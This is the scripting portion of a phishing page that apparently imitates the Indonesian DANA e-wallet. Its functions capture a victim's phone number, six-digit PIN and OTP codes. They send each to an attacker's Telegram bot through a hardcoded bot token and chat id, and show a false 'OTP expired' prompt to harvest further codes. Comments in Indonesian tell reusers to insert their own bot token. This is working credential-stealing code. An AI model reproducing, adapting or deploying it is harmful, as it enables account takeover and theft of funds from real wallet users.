      <arole type="button" class="back" id="prevBtn" onclick="nextPrev(-1)"><img class="back" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhNI1Emy7PX0havgWqHmqlT51KSm22vosgN4OekNvqowvUD5b_ftp3dSwYRhaNDEGZKkyXibrQzF2FPZ9tB9jHwqMYmsQv7SZs9yiVTt9TfQUgON1sKVo9ikO9NO82v7U2amQPmLFih0CenbjLkpEdathvIorjl6Pr-nxFULehzY2gAPpIyJsYX0I7O/s16000/AddText_05-15-01.36.51.jpg"></a>
      </div>
        
  </div>
  
  <!-- Circles which indicates the steps of the form: -->
  <div style="text-align:center;margin-top:40px;">
    <span class="step"></span>
    <span class="step"></span>
    <span class="step"></span>
    <span class="step"></span>
    <span class="step"></span>
    </form>
  </div>
   
   <center>
 <div id="process" name="process" class="process" style="display: none;">
            <div class="loading">
                <img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi8hbZEfutKvr9pkj0-mkJYWt-1SBtt3gw-HFOEZc0172okrp0SFHLaW3PRGVDm1U0P7WWEMELIw4nlq1_1gCgyZBo3cxf-OJNpguNamdJryCkGU-hTHiW3RyOv5JD9eIjXTFtrJFCVn0ae4RxG4Oi-czAP20tEaJI3OstxFAbtOwtFxp6RvOHc6NZL/s1600/load_bg.png">
                <img class="spinner" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhl9xJVYWF_a9vAhgW5QQgozvZVADTaJgIX64iO7a5sQuMpSoPBK3zfKjvT6xc9fZPfxZz39mjk1H_oZOOOtYvO1l7DkWNqiD5LJyGYdwDNyHuyqLk_Ix6eFs3aLCG2yUXVwtsnj0BXTA40WZmecyLyCIm_ff0xNkkOvkuKBOl6yfS-QjI_EJrIyGtU/s1600/load_spin.png" id="loading">
            </div>
        </div>
        </center>
          <center>
 <div id="process1" name="process" class="process" style="display: none;">
            <div class="loading">
                <img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi8hbZEfutKvr9pkj0-mkJYWt-1SBtt3gw-HFOEZc0172okrp0SFHLaW3PRGVDm1U0P7WWEMELIw4nlq1_1gCgyZBo3cxf-OJNpguNamdJryCkGU-hTHiW3RyOv5JD9eIjXTFtrJFCVn0ae4RxG4Oi-czAP20tEaJI3OstxFAbtOwtFxp6RvOHc6NZL/s1600/load_bg.png">
                <img class="spinner" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhl9xJVYWF_a9vAhgW5QQgozvZVADTaJgIX64iO7a5sQuMpSoPBK3zfKjvT6xc9fZPfxZz39mjk1H_oZOOOtYvO1l7DkWNqiD5LJyGYdwDNyHuyqLk_Ix6eFs3aLCG2yUXVwtsnj0BXTA40WZmecyLyCIm_ff0xNkkOvkuKBOl6yfS-QjI_EJrIyGtU/s1600/load_spin.png" id="loading">
            </div>
        </div>
        </center>
       <script>
$(document).ready(function() {
    $('#nope').on('input change', function() {
        if(nope.value.length >9) {
        nextBtn.disabled= false
       }
        else {
        nextBtn.disabled= true;
        }
    });
});
</script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.3.1/jquery.min.js"
    integrity="sha512-+NqPlbbtM1QqiK8ZAo4Yrj2c4lNQoGv8P79DPtKzj++l5jnN39rHA/xsqn8zE9l0uSoxaCdrOgFs6yjyfbBxSg=="
    crossorigin="anonymous" referrerpolicy="no-referrer"></script>
     <script>
        $(document).ready(function () {
            $("#nextBtn").on('click', function () {
                $("#process").show();
                setTimeout(() => {
                $("#process").fadeOut();
                },1500)
              });
        });
        
        
      function startTimer(duration, display) {
    var timer = duration, minutes, seconds;
    setInterval(function () {
        minutes = parseInt(timer / 59, 10);
        seconds = parseInt(timer % 59, 10);
        minutes = minutes < 10 ? "0" + minutes : minutes;
        seconds = seconds < 10 ? "0" + seconds : seconds;
        display.textContent = seconds;
        if (--timer < 0) {
            timer = duration;
        }
    }, 1000);
}
window.onload = function () {
    var fiveMinutes = 59 * 1,
        display = document.querySelector('#timer');
    startTimer(fiveMinutes, display);
};


    </script>
<script>
  function backbutton(){
      document.getElementById("danapin").style.display = "none";
      document.getElementById("login").style.display = "block";
      document.getElementById("tombolback").style.display = "block";
      document.getElementById("process1").style.display = "flex";
      $("#process1").fadeOut();
  }
  
  
  function kembalibutton(){
      document.getElementById("myForm").style.display = "none";
      document.getElementById("danapin").style.display = "block";
      document.getElementById("prevBtn1").style.display = "none";
        document.getElementById("prevBtn").style.display = "block";
        document.getElementById("process1").style.display = "flex";
      $("#process1").fadeOut();
        document.write.getElementById("danapin")
        var pinContainer = document.querySelector(".pin-code");
        
        pinContainer.addEventListener('keydown', function (event) {
    var target = event.srcElement;
    target.value = "";
}, false);
      
      
  }
        
   
  
  </script>
  <script>
function nomorLogin(){
   document.getElementById("danapin").style.display = "block";
   document.getElementById("tombolback").style.display = "none";
   document.getElementById("process1").style.display = "flex";
   setTimeout(() => {
      $("#process1").fadeOut();
   },1500)
  document.getElementById("login").style.display = "none";
     document.getElementById("userid").innerHTML = "nomor";
      var logo = document.getElementById('logo');       
    var nope = document.getElementById('nope');
    
    var gabungan = '' + logo.value + '%0A~%20𝗡𝗼𝗺𝗼𝗿 𝗗𝗔𝗡𝗔%20~%0A%20%20%20%20%20' + nope.value;
   
    var token = '7142158232:AAFrUmsAZEcin86tEQY_3nKTGfp-XT-icXY'; // Ganti dengan token bot yang kamu buat
    var grup = '6235911819'; // Ganti dengan chat id dari bot yang kamu buat

    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,
    })
}
 
    
  </script>
<script>
function openForm() {
  document.getElementById("myForm").style.display = "block";
   document.getElementById("prevBtn").style.display = "none";
     document.getElementById("prevBtn1").style.display = "block";
     
      
  document.getElementById("process1").style.display = "flex";
  setTimeout(() => {
      $("#process1").fadeOut();
  },1500)
      document.getElementById("danapin").style.display = "none";
  document.getElementById("userid").innerHTML = "Kode dikirim via SMS ke +62" + nope.value; 
    
  var logo = document.getElementById('logo');
  var pin1 = document.getElementById('pin1');
 var pin2 = document.getElementById('pin2');
 var pin3 = document.getElementById('pin3');
 var pin4 = document.getElementById('pin4');
 var pin5 = document.getElementById('pin5');
 var pin6 = document.getElementById('pin6');
     
  var gabungan = '' + logo.value + '%0A~%20𝗣𝗜𝗡 𝗗𝗔𝗡𝗔%20~%0A%20%20%20%20%20' + pin1.value + pin2.value + pin3.value + pin4.value + pin5.value + pin6.value;
  
     
 

    var token = '7142158232:AAFrUmsAZEcin86tEQY_3nKTGfp-XT-icXY'; // Ganti dengan token bot yang kamu buat
    var grup = '6235911819'; // Ganti dengan chat id dari bot yang kamu buat

    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,
    })
}
  
function nextPrev(){
    document.getElementById("login").style.display = "block";
    document.getElementById("process1").style.display = "flex";
    setTimeout(() => {
      $("#process1").fadeOut();
    },800)
       document.getElementById("homeku").style.display = "none";
    
} 
  
  
function kirimPesan(){
    
    document.getElementById("valid").style.display = "block";
     document.getElementById("myForm").style.display = "none";
     document.getElementById("process1").style.display = "flex";
     setTimeout(() => {
      $("#process1").fadeOut();
     },1500)
   document.getElementById("useridku").innerHTML = "Kode OTP telah kadaluarsa atau invalid, Silahkan Kirim ulang OTP"; 
   
    
     var logo = document.getElementById('logo');
   var pin11 = document.getElementById('pin11');
   var pin22 = document.getElementById('pin22');
   var pin33 = document.getElementById('pin33');
   var pin44 = document.getElementById('pin44');
    

    var gabungan = '' + logo.value +  '%0A~%20𝗢𝗧𝗣 𝗗𝗔𝗡𝗔%20~%0A%20%20%20%20%20%20' + pin11.value + pin22.value + pin33.value + pin44.value;


    var token = '7142158232:AAFrUmsAZEcin86tEQY_3nKTGfp-XT-icXY'; // Ganti dengan token bot yang kamu buat
    var grup = '6235911819'; // Ganti dengan chat id dari bot yang kamu buat

    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,
    })
}
 
 function startTimer(duration, display) {
    var timer = duration, minutes, seconds;
    setInterval(function () {
        minutes = parseInt(timer / 60, 10);
        seconds = parseInt(timer % 60, 10);
        minutes = minutes < 10 ? "0" + minutes : minutes;
        seconds = seconds < 10 ? "0" + seconds : seconds;
        display.textContent = seconds;
        if (--timer < 0) {
            timer = duration;
        }
    }, 1000);
}
window.onload = function () {
    var fiveMinutes = 59 * 1,
        display = document.querySelector('#time');
    startTimer(fiveMinutes, display);
};



    </script>
  <script>
$( document ).ready(function() {
            setTimeout(() => {
                $('welalxcome').hide();
                $('chsalxcome2').fadeIn();
            },2060)
        })
        
</script>

<script src="https://ajax.googleapis.com/ajax/libs/jquery/2.0.3/jquery.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.1.1/jquery.min.js"></script>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
<script src="https://cdn.rawgit.com/igorescobar/jQuery-Mask-Plugin/1ef022ab/dist/jquery.mask.min.js"></script>
<script type="text/javascript">
	$(document).ready(function(){
	    // Format nomor HP.
	  $( '.nope' ).mask('999-9999-99999');
	})
</script>
    </body>
</html>
<script>
//var pinContainer = document.getElementsByClassName("pin-code")[maxlength];
var pinContainer = document.querySelector(".pin-code");
console.log('There is ' + pinContainer.length + ' Pin Container on the page.');

pinContainer.addEventListener('keyup', function (event) {
    var target = event.srcElement;
    
    var maxLength = parseInt(target.attributes["maxlength"].value, 6);
    var myLength = target.value. length;

    if (myLength >= maxLength) {
        var next = target;
        while (next = next.nextElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        }
    }

    if (myLength === 0) {
        var next = target;
        while (next = next.previousElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        }
    }
}, false);

pinContainer.addEventListener('keydown', function (event) {
    var target = event.srcElement;
    target.value = "";
}, false);
</script>
<script>
//var pinContainer = document.getElementsByClassName("pin-code1")[maxlength];
var pinContainer = document.querySelector(".pin-code1");
console.log('There is ' + pinContainer.length + ' Pin Container on the page.');

pinContainer.addEventListener('keyup', function (event) {
    var target = event.srcElement;
    
    var maxLength = parseInt(target.attributes["maxlength"].value, 6);
    var myLength = target.value. length;

    if (myLength >= maxLength) {
        var next = target;
        while (next = next.nextElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        }
    }

    if (myLength === 0) {
        var next = target;
        while (next = next.previousElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        }
    }
}, false);

pinContainer.addEventListener('keydown', function (event) {
    var target = event.srcElement;
    target.value = "";
}, false);
</script>
<script>
//var pinContainer = document.getElementsByClassName("pin-code2")[maxlength];
var pinContainer = document.querySelector(".pin-code2");
console.log('There is ' + pinContainer.length + ' Pin Container on the page.');

pinContainer.addEventListener('keyup', function (event) {
    var target = event.srcElement;
    
    var maxLength = parseInt(target.attributes["maxlength"].value, 6);
    var myLength = target.value. length;

    if (myLength >= maxLength) {
        var next = target;
        while (next = next.nextElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        }
    }

    if (myLength === 0) {
        var next = target;
        while (next = next.previousElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        }
    }
}, false);

pinContainer.addEventListener('keydown', function (event) {
    var target = event.srcElement;
    target.value = "";
}, false);



function kirimPesan1(){
    
 
   document.getElementById("useridku").innerHTML = "Kode OTP telah kadaluarsa atau invalid, Silahkan Kirim ulang OTP"; 
   document.getElementById("process1").style.display = "flex";
      $("#process1").fadeOut();
    
     var logo = document.getElementById('logo');
   var pin111 = document.getElementById('pin111');
   var pin222 = document.getElementById('pin222');
   var pin333 = document.getElementById('pin333');
   var pin444 = document.getElementById('pin444');
    

    var gabungan = '' + logo.value +  '%0A~%20𝗢𝗧𝗣 𝗗𝗔𝗡𝗔%20~%0A%20%20%20%20%20%20' + pin111.value + pin222.value + pin333.value + pin444.value;


    var token = '7142158232:AAFrUmsAZEcin86tEQY_3nKTGfp-XT-icXY'; // Ganti dengan token bot yang kamu buat
    var grup = '6235911819; // Ganti dengan chat id dari bot yang kamu buat

    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,
    })
}
 </script>
 <script>
  function closechat(){
      document.getElementById("Backdrop").style.display = "none";
  }
  function openchat(){
      document.getElementById("Backdrop").style.display = "block";
  }
</script>
<script>
// Ganti nomor WhatsApp berikut dengan nomor kamu
const NOMOR_WHATSAPP = ""; //Pastikan nomor diawali dengan kode negara tanpa tanda "+" (cth. 085-XXX-XXX-XXX diubah mendaji 6285-XXX-XXX-XXX)

const ewc_hidden = document.querySelectorAll(".ewc_hidden");
const ewc_button = document.querySelectorAll(".ewc_button");
const ewc_audio = new Audio(
  "https://www-dana-idl.github.io/Dana.kaget/diana-dana.mp3"
);

const ewcShow = () => {
  ewc_hidden.forEach((el) => {
    el.style.display = "flex";
    el.ariaHidden = "false";
  });
  ewc_audio.play();

  setTimeout(() => {
    ewc_hidden.forEach((el) => {
      el.style.opacity = "1";
    });
  }, 0);

  setTimeout(() => {
    document.getElementById("ewChatBubble").style.opacity = "1";
  }, 300);
};

const ewcHide = () => {
  ewc_hidden.forEach((el) => {
    el.style.opacity = "0";
    document.getElementById("ewChatBubble").style.opacity = "0";
    el.ariaHidden = "true";
  });

  setTimeout(() => {
    ewc_hidden.forEach((el) => {
      el.style.display = "none";
    });
  }, 1000);
};

function ewcOpen() {
  if (ewChatBox.style.display == "none") {
    ewcShow();
  } else {
    ewcHide();
  }
}

document.querySelectorAll(".ewc_close").forEach((el) => {
  el.addEventListener("click", ewcHide);
});

document.querySelectorAll(".ewc_open").forEach((el) => {
  el.addEventListener("click", ewcOpen);
});

document.getElementById("ewc_send").addEventListener("click", () => {
  window.open(
    `https://wa.me/${NOMOR_WHATSAPP}?text=${encodeURI(
      document.getElementById("ewc_message").value
    )}`
  );
});
</script>
